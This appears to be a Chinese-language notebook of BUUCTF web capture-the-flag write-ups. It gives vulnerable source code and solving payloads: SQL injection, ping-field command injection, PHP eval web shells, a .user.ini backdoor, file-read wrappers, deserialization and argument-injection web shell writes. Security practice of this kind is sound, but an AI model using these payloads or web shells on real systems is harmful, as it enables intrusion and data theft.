




# BUUCTF-WEB
- [HCTF-2018-WarmUp](#HCTF-2018-WarmUp)
- [极客大挑战-2019-EasySQL](#极客大挑战-2019-EasySQL)
- [强网杯-2019-随便注](#强网杯-2019-随便注)
- [极客大挑战-2019-Havefun](#极客大挑战-2019-Havefun)
- [ACTF2020-新生赛-Include](#ACTF2020-新生赛-Include)
- [极客大挑战-2019-Secret-File](#极客大挑战-2019-Secret-File)
- [极客大挑战-2019-LoveSQL](#极客大挑战-2019-LoveSQL)
- [ACTF2020-新生赛-Exec](#ACTF2020-新生赛-Exec)
- [极客大挑战-2019-Knife](#极客大挑战-2019-Knife)
- [RoarCTF-2019-Easy-Calc](#RoarCTF-2019-Easy-Calc)
- [极客大挑战-2019-Http](#极客大挑战-2019-Http)
- [极客大挑战-2019-PHP](#极客大挑战-2019-PHP)
- [极客大挑战-2019-Upload](#极客大挑战-2019-Upload)
- [极客大挑战-2019-BabySQL](#极客大挑战-2019-BabySQL)
- [ACTF2020-新生赛-Upload](#ACTF2020-新生赛-Upload)
- [ACTF2020-新生赛-BackupFile](#ACTF2020-新生赛-BackupFile)
- [HCTF-2018-admin](#HCTF-2018-admin)
- [极客大挑战-2019-BuyFlag](#极客大挑战-2019-BuyFlag)
- [BJDCTF2020-Easy-MD5](#BJDCTF2020-Easy-MD5)
- [SUCTF-2019-CheckIn](#SUCTF-2019-CheckIn)
- [ZJCTF-2019-NiZhuanSiWei](#ZJCTF-2019-NiZhuanSiWei)
- [极客大挑战-2019-HardSQL](#极客大挑战-2019-HardSQL)
- [CISCN2019-华北赛区-Day2-Web1-Hack-World](#CISCN2019-华北赛区-Day2-Web1-Hack-World)
- [网鼎杯-2018-Fakebook](#网鼎杯-2018-Fakebook)
- [GYCTF2020-Blacklist](#GYCTF2020-Blacklist)
- [BUUCTF-2018-Online-Tool](#BUUCTF-2018-Online-Tool)
- [强网杯-2019-高明的黑客](#强网杯-2019-高明的黑客)
## HCTF-2018-WarmUp
`php代码审计`

查看源代码->访问source.php

```php
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            } # page变量要存在且为字符串

            if (in_array($page, $whitelist)) {
                return true;
            } # page只能为source.php或者hint.php

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?') ## page长度值
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page); #url解码
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br>";
    }  
?>
```

**解题思路**

```
$page = hint.php?../../ffffllllaaaagggg

mb_substr截取$page为hint.php，之后$_page=hint.php,最后include('hint.php?../../ffffllllaaaagggg'),payload如下：

``?file=hint.php?../../../../../../../ffffllllaaaagggg``


```

**总结**

此方法只适合在Linux环境下使用，hint.php?/会被当作目录

## 极客大挑战-2019-EasySQL

万能密码登录后台

password存在注入：

``http://64faf8e1-4207-4c80-9f0a-a272e2ef33cc.node3.buuoj.cn/check.php?username=1&password=2%27%20or%201%23``

## 强网杯-2019-随便注

存在过滤如下
``return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);``

**解题思路**

```
-1' order by 1#
-1' order by 2#
-1' order by 3# 报错，说明存在3列

1' and (extractvalue(1,concat(0x7e,user(),0x7e)));#
error 1105 : XPATH syntax error: '~root@localhost~'
1' and (extractvalue(1,concat(0x7e,database(),0x7e)));#
error 1105 : XPATH syntax error: '~supersqli~'
1' and (extractvalue(1,concat(0x7e,version(),0x7e)));#
error 1105 : XPATH syntax error: '~10.3.15-MariaDB~'

过滤了select无法用报错注入进一步注入。

堆叠注入
-1';show tables;#

-1';show columns from `1919810931114514`;#
-1';desc `1919810931114514`#

方法一：为了绕过select，采用预编译方式
set用于设置变量名和值
prepare用于预备一个语句，并赋予名称，以后可以引用该语句
execute执行语句
deallocate prepare用来释放掉预处理的语句

1';Set @sql = CONCAT('se','lect * from `1919810931114514`;');Prepare stmt from @sql;EXECUTE stmt;#  

方法二: 更改表列名

可以猜测上述后台采用如下语句
select * from words where id = '';
将表1919810931114514名字改为words，flag列名字改为id，就能得到flag内容

修改表名(将表名user改为users)
alter table user rename to users;
修改列名(将字段名username改为name)
alter table users change uesrname name varchar(30);

1'; alter table words rename to words1;alter table `1919810931114514` rename to words;alter table words change flag id varchar(50);#

1' or 1=1#
```

**Resources**

https://zhuanlan.zhihu.com/p/78989602

## 极客大挑战-2019-Havefun

http://xxxx/?cat=dog

## SUCTF-2019-EasySQL

```
0;select database(); CTF
0;show tables;  Flag

非预期解法：源码如下
$sql = "select ".$post['query']."||flag from Flag";

payload：
*,1
拼接起来就是select *,1||flag from Flag => select *,1 from Flag 直接查询Flag表所有内容

预期解法:
1;set sql_mode=pipes_as_concat;select 1

set sql_mode=pipes_as_concat;的作用为将||的作用由or变为拼接字符串
```

## ACTF2020-新生赛-Include

payload:?file=php://filter/read=convert.base64-encode/resource=flag.php

## 极客大挑战-2019-Secret-File

查看源代码：发现Archive_room.php

burpsite抓包



读取secr3t.php 发现源码如下:

```php
<html>
    <title>secret</title>
    <meta charset="UTF-8">
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }
    include($file); 
//flag放在了flag.php里
?>
</html>
```

payload:?file=php://filter/read=convert.base64-encode/resource=flag.php

## 极客大挑战-2019-LoveSQL

首先password万能密码注入，没有啥有用信息，尝试注入

```
/check.php?username=1&password=1%27+order+by+4%23
说明存在3个字段

/0' union select 1,2,3#
说明2和3是显示位也是注入位

1' union select 1,database(),3# 
爆出数据库 

1' union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema=database()#
爆出表名 geekuser,l0ve1ysq1

1' union select 1,database(),group_concat(column_name) from information_schema.columns where table_name='l0ve1ysq1'#
爆出字段名 id,username,password

1' union select 1,database(),group_concat(id,username,password) from l0ve1ysq1'#
爆出字段内容得到flag
```

## ACTF2020-新生赛-Exec

是个ping口，尝试如下payload：

```
127.0.0.1;ls /
127.0.0.1;cat /flag
```

## GXYCTF2019-Ping-Ping-Ping
```
?ip=127.0.0.1;ls

?ip=127.0.0.1;cat$IFS$1index.php
```

```php
/?ip=
|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "
";
  print_r($a);
}
```

解法一：
```
?ip=127.0.0.1;cat$IFS`ls`
```

解法二:
```
?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh
```

解法三：命令执行拼接(这个还不是很明白)
```
/?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php

https://www.e-learn.cn/topic/3781202
```

## 极客大挑战-2019-Knife

``eval($_POST["Syc"]);``

蚁剑直接连接拿flag

## 护网杯-2018-easy_tornado

考点: SSTI模板注入

```
error?msg={{1}}
error?msg={{handler.settings}}

得到cookie_secret:ef57c331-744f-4528-b434-9746317d4f6a
/hints.txt
md5(cookie_secret+md5(filename))
/fllllllllllllag
594cb6af684ad354b4a59ac496473990

```

python md5脚本如下
```py
import hashlib

def md5(s):
	md5 = hashlib.md5()
	md5.update(s.encode('utf8'))
	return md5.hexdigest()

def filehash():
	filename = '/fllllllllllllaaaaaag'
	cookie_secret = 'ef57c331-744f-4528-b434-9746317d4f6a'
	print(md5(cookie_secret+md5(filename)))

if __name__ == '__main__':
	filehash()
```
file?filename=/fllllllllllllaaaaaag&filehash=1ad9b8e09fbe539bc5a6f2c8bc0ab5db
payload:
file?filename=/fllllllllllllag&filehash=6edf92c8ea6844c3001fcb640b504f8c
**Resource**
https://blog.csdn.net/qq_43678005/article/details/108108520

## RoarCTF-2019-Easy-Calc

查看源代码发现calc.php

calc.php
```php
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?>
```

payload:
```
? num=1;var_dump(scandir(chr(47)))
? num=1;var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))

```
**原理**

1. waf不允许num变量传递字母，可以在num前面加个空格，waf就找不到num这个变量了，但根据PHP解析的特性，会把空格给去掉，这样我们代码还能正常允许，而且还能够上传非法字符。

2. scandir('/') 由于单引号被黑名单拦截，无法执行，用chr()转ascii进行拼接

## 极客大挑战-2019-Http


burpsuite请求包:
```
GET /Secret.php HTTP/1.1
Host: node3.buuoj.cn
User-Agent: Syclover
X-Forwarded-For: 127.0.0.1
Referer: https://www.Sycsecret.com
Accept: */*
Accept-Language: en
Connection: close
```

## 极客大挑战-2019-PHP

www.zip源码泄露

考点：反序列化

```php
<?php
class Name{
    private $username = 'admin';
    private $password = '100';
}

$a = new Name();
echo urlencode(serialize($a)); # urlencode防止private生成的%00不可打印字符复制丢失

# 绕过wakeup需要将name后面的2改为3
?>
```
当成员属性数目大于实际数目时可绕过wakeup方法(CVE-2016-7124)

payload:
```
index.php?select=O%3A4%3A"Name"%3A3%3A%7Bs%3A14%3A"%00Name%00username"%3Bs%3A5%3A"admin"%3Bs%3A14%3A"%00Name%00password"%3Bs%3A3%3A"100"%3B%7D
```

## 极客大挑战-2019-Upload

- 上传后缀为.phtml
- ``GIF89a? <script language="php">eval($_REQUEST[shell])</script>``
- 修改Content-Type文件类型为image/jpeg
- upload/shell2.phtml

蚁剑连接

## 极客大挑战-2019-BabySQL
后台用的replace过滤，可用双写绕过
```
?username=1&password=1%27uniunionon%20selselectect%201,2,3%23

?username=1&password=1%27uniunionon%20selselectect%201,database(),group_concat(table_name)%20frunionom%20infounionrmation_schema.tables%20whewherere%20table_schema=database()%23

uniunionon seselectlect 1,database(),group_concat(column_name) frfromom infofromrmation_schema.columns whefromre table_name='b4bsql'%23

uniunionon seleselectct 1,database(),group_concat(id,username,passwofromrd) ffromrom b4bsql %23
```

## ACTF2020-新生赛-Upload

chrome关掉JS绕过前端验证，上传phtml以及修改文件类型

## ACTF2020-新生赛-BackupFile

dirsearch扫到index.php.bak

```php
<?php
include_once "flag.php";

if(isset($_GET['key'])) {
    $key = $_GET['key'];
    if(!is_numeric($key)) {
        exit("Just num!");
    }
    $key = intval($key);
    $str = "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3";
    if($key == $str) {
        echo $flag;
    }
}
else {
    echo "Try to find out source file!";
}
```

弱类型比较，== 比较，key=123即可


## HCTF-2018-admin

注册登录后，在修改一处源码有泄露

routes.py
```py
#!/usr/bin/env python
# -*- coding:utf-8 -*-

from flask import Flask, render_template, url_for, flash, request, redirect, session, make_response
from flask_login import logout_user, LoginManager, current_user, login_user
from app import app, db
from config import Config
from app.models import User
from forms import RegisterForm, LoginForm, NewpasswordForm
from twisted.words.protocols.jabber.xmpp_stringprep import nodeprep
from io import BytesIO
from code import get_verify_code

@app.route('/code')
def get_code():
    image, code = get_verify_code()
    # 图片以二进制形式写入
    buf = BytesIO()
    image.save(buf, 'jpeg')
    buf_str = buf.getvalue()
    # 把buf_str作为response返回前端，并设置首部字段
    response = make_response(buf_str)
    response.headers['Content-Type'] = 'image/gif'
    # 将验证码字符串储存在session中
    session['image'] = code
    return response

@app.route('/')
@app.route('/index')
def index():
    return render_template('index.html', title = 'hctf')

@app.route('/register', methods = ['GET', 'POST'])
def register():

    if current_user.is_authenticated:
        return redirect(url_for('index'))

    form = RegisterForm()
    if request.method == 'POST':
        name = strlower(form.username.data)
        if session.get('image').lower() != form.verify_code.data.lower():
            flash('Wrong verify code.')
            return render_template('register.html', title = 'register', form=form)
        if User.query.filter_by(username = name).first():
            flash('The username has been registered')
            return redirect(url_for('register'))
        user = User(username=name)
        user.set_password(form.password.data)
        db.session.add(user)
        db.session.commit()
        flash('register successful')
        return redirect(url_for('login'))
    return render_template('register.html', title = 'register', form = form)

@app.route('/login', methods = ['GET', 'POST'])
def login():
    if current_user.is_authenticated:
        return redirect(url_for('index'))

    form = LoginForm()
    if request.method == 'POST':
        name = strlower(form.username.data)
        session['name'] = name
        user = User.query.filter_by(username=name).first()
        if user is None or not user.check_password(form.password.data):
            flash('Invalid username or password')
            return redirect(url_for('login'))
        login_user(user, remember=form.remember_me.data)
        return redirect(url_for('index'))
    return render_template('login.html', title = 'login', form = form)

@app.route('/logout')
def logout():
    logout_user()
    return redirect('/index')

@app.route('/change', methods = ['GET', 'POST'])
def change():
    if not current_user.is_authenticated:
        return redirect(url_for('login'))
    form = NewpasswordForm()
    if request.method == 'POST':
        name = strlower(session['name'])
        user = User.query.filter_by(username=name).first()
        user.set_password(form.newpassword.data)
        db.session.commit()
        flash('change successful')
        return redirect(url_for('index'))
    return render_template('change.html', title = 'change', form = form)

@app.route('/edit', methods = ['GET', 'POST'])
def edit():
    if request.method == 'POST':
        
        flash('post successful')
        return redirect(url_for('index'))
    return render_template('edit.html', title = 'edit')

@app.errorhandler(404)
def page_not_found(error):
    title = unicode(error)
    message = error.description
    return render_template('errors.html', title=title, message=message)

def strlower(username):
    username = nodeprep.prepare(username)
    return username
```

解法一：unicode欺骗

ᴀʙᴄᴅᴇꜰɢʜɪᴊᴋʟᴍɴᴏᴘʀꜱᴛᴜᴠᴡʏᴢ


https://www.anquanke.com/post/id/164086#h2-5

注册用户ᴬᴰᴹᴵᴺ
登录用户ᴀdmin，变成Admin
修改密码Admin，更改了admin的密码

注册一个账户ᴬᴰᴹᴵᴺ，注册时nodeprep.prepare()处理一遍得到ADMIN，然后修改密码时nodeprep.prepare()会进行第二次处理，得到admin即可修改admin账户密码


解法二: flask session伪造 以后再研究吧
**Resource**
https://www.anquanke.com/post/id/164086#h2-5


## 极客大挑战-2019-BuyFlag

```
POST /pay.php HTTP/1.1
Host: cf9c7115-396b-4aea-b92a-f56e2808f755.node3.buuoj.cn
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://cf9c7115-396b-4aea-b92a-f56e2808f755.node3.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7
Cookie: UM_distinctid=178e3bcc14b20-0818dc9f78314e-5771133-190140-178e3bcc14cc71; user=1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

password=404a&money=1e9
```

1. user=1
2. password=404
3. money=1e9

## BJDCTF2020-Easy-MD5

burpsuite抓包发现相应包有hint



``select * from 'admin' where password=md5($pass,true)``

``password=ffifdyop``

原理：ffifdyop这个字符串被md5后变成276f722736c95d99e921722cf9ed621c，十六进制转ascii的前几位刚好是 'or '6,

Mysql数据库会把十六进制(hex)转为ascii解释,拼接后变成select * from 'admin' where password='' or '6xxxxx', 这里or为永真式，相当于万能密码，可绕过md5函数

接着第二关源码如下：
```php
$a = $GET['a'];
$b = $_GET['b'];

if($a != $b && md5($a) == md5($b)){
    // wow, glzjin wants a girl friend.
```

payload如下：
``a[]=1&b[]=2``

第三关源码如下:
```php
error_reporting(0);
include "flag.php";

highlight_file(__FILE__);

if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){
    echo $flag;
}
```

payload如下:
```
param1[]=1&param2[]=2
```
**Resource**
这里有很不错的详解原理
https://www.cnblogs.com/h3zh1/p/12656446.html

## SUCTF-2019-CheckIn

考点: .user.ini后门
条件: 
- 服务器脚本语言为PHP
- 服务器使用CGI／FastCGI模式
- 上传目录下要有可执行的php文件

.user.ini
```
GIF89a
auto_prepend_file=a.jpg
```

a.jpg
```php
GIF89a
<script language="php">eval($_REQUEST[shell]);</script>
```

访问/uploads/d99081fe929b750e0557f85e6499103f/index.php，蚁剑连接

**resource**
https://wooyun.js.org/drops/user.ini%E6%96%87%E4%BB%B6%E6%9E%84%E6%88%90%E7%9A%84PHP%E5%90%8E%E9%97%A8.html

## ZJCTF-2019-NiZhuanSiWei

```php
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

先读取useless.php源码

```
POST /?text=php://input&file=php://filter/read=convert.base64-encode/resource=useless.php HTTP/1.1
Host: a5aaf467-b6af-4778-975a-015d32ec294a.node3.buuoj.cn
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7
Cookie: UM_distinctid=178e3bcc14b20-0818dc9f78314e-5771133-190140-178e3bcc14cc71
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

welcome to the zjctf
```

useless
```php
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```


```
POST /?text=php://input&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";} HTTP/1.1
Host: a5aaf467-b6af-4778-975a-015d32ec294a.node3.buuoj.cn
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7
Cookie: UM_distinctid=178e3bcc14b20-0818dc9f78314e-5771133-190140-178e3bcc14cc71
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

welcome to the zjctf
```

## 极客大挑战-2019-HardSQL

这里用的黑名单检测

```
?username=admin%27or(updatexml(1,concat(0x7e,(SELECT(database())),0x7e),1))%23
?username=admin%27or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e),1))%23
?username=admin%27or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e),1))%23
?username=admin%27or(updatexml(1,concat(0x7e,(select(password)from(H4rDsq1)),0x7e),1))%23
?username=admin%27or(updatexml(1,concat(0x7e,(select(left(password,30))from(H4rDsq1)),0x7e),1))%23
right()
```

## CISCN2019-华北赛区-Day2-Web1-Hack-World

```php
<?php
$dbuser='root';
$dbpass='root';

function safe($sql){
    #被过滤的内容 函数基本没过滤
    $blackList = array(' ','||','#','-',';','&','+','or','and','`','"','insert','group','limit','update','delete','*','into','union','load_file','outfile','./');
    foreach($blackList as $blackitem){
        if(stripos($sql,$blackitem)){
            return False;
        }
    }
    return True;
}
if(isset($_POST['id'])){
    $id = $_POST['id'];
}else{
    die();
}
$db = mysql_connect("localhost",$dbuser,$dbpass);
if(!$db){
    die(mysql_error());
}   
mysql_select_db("ctf",$db);

if(safe($id)){
    $query = mysql_query("SELECT content from passage WHERE id = ${id} limit 0,1");
    
    if($query){
        $result = mysql_fetch_array($query);
        
        if($result){
            echo $result['content'];
        }else{
            echo "Error Occured When Fetch Result.";
        }
    }else{
        var_dump($query);
    }
}else{
    die("SQL Injection Checked.");
}
```

payload:
``id=0^(ascii(substr((select(flag)from(flag)),1,1))>101)``

```

```


## 网鼎杯-2018-Fakebook

考点: 扫描源码+SSRF+反序列化
访问robots.txt发现user.php.bak源码

```php
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```
发现view.php?no=1,尝试注入

```
?no =1 order by 5 -- + 
报错，说明存在4列
?no=1 union select 1,2,3,4--+ 
提示 no hack 被waf了
?no=-1%20union/**/select%201,2,3,4%20--+
提示notcie:Notice: unserialize(): Error at offset 0 of 1 bytes in /var/www/html/view.php on line 31
?no=-1%20union/**/select%201,database(),3,4%20--+
得到数据库fakebook
?no=-1%20union/**/select%201,group_concat(table_name),3,4 from information_schema.tables where table_schema='fakebook'%20--+
爆出表名users
?no=-1%20union/**/select%201,group_concat(column_name),3,4 from information_schema.columns where table_name='users'--+
```

```php
<?php


class UserInfo
{
    public $name = "admin111";
    public $age = 18;
    public $blog = "flle:///var/html/flag.php";

}

$a = new UserInfo();
echo serialize($a);
```

O:8:"UserInfo":3:{s:4:"name";s:0:"";s:3:"age";i:0;s:4:"blog";s:25:"flle:///var/html/flag.php";}

```
?no=-1/**/union/**/select/**/1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:8:"admin111";s:3:"age";i:18;s:4:"blog";s:29:"flle:///var/www/html/flag.php";}'--+
```

查看源代码 base64解码

我这里得科学上网才能继续以上操作。

以上为预期解法，还有另外一种非预期解法，利用报错注入。

https://www.cnblogs.com/renhaoblog/p/14081011.html


## GYCTF2020-Blacklist

?inject=1%27or%201=%271

?inject=1%27%20order%20by%202--+
2列
?inject=1' union select 1,2--+

waf:
``return preg_match("/set|prepare|alter|rename|select|update|delete|drop|insert|where|\./i",$inject);``

尝试堆叠注入:

```
1';show tables#
1';show columns from `FlagHere`; %23  
1';desc FlagHere;%23
字段名为flag 表名为FlagHere

相比强网杯 多过滤了rename alter prepare，所以预编译与偷天换日方法都不能用，只能用handler

 # 打开FlagHere表  # 访问 #关闭
1';
HANDLER FlagHere OPEN;
HANDLER FlagHere READ FIRST;
HANDLER FlagHere CLOSE;#   
```

## BUUCTF-2018-Online-Tool

```php
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}
```

payload:
```
?host = ' <?php phpinfo() ?>  -oG 1.php '
?host=' <?php @eval($_POST["hack"]);?> -oG hack.php '
```
**resources**
https://github.com/glzjin/buuctf_2018_online_tool
https://www.cnblogs.com/Cl0ud/p/12192230.html
http://www.lmxspace.com/2018/07/16/%E8%B0%88%E8%B0%88escapeshellarg%E5%8F%82%E6%95%B0%E7%BB%95%E8%BF%87%E5%92%8C%E6%B3%A8%E5%85%A5%E7%9A%84%E9%97%AE%E9%A2%98/